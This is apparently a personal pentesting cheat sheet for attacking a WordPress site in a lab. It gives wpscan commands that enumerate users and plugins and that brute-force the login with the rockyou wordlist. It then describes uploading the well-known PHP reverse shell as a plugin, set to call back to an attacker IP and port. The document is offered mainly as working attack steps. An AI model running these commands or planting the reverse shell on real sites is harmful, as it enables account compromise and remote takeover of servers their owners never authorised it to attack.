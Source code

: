 Wordpress commands
==================

__1 - Enumerating users __

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u

__2 - Bruteforce wp login page ___

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

__3 - Enumerating wordpress users and plugins __

wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


Reverse shell exploits
======================

__Exploit Method 1__

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.

Download and Edit the following file content

$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location

https://192.168.1.30:12380/blogblog/wp-content/uploads/


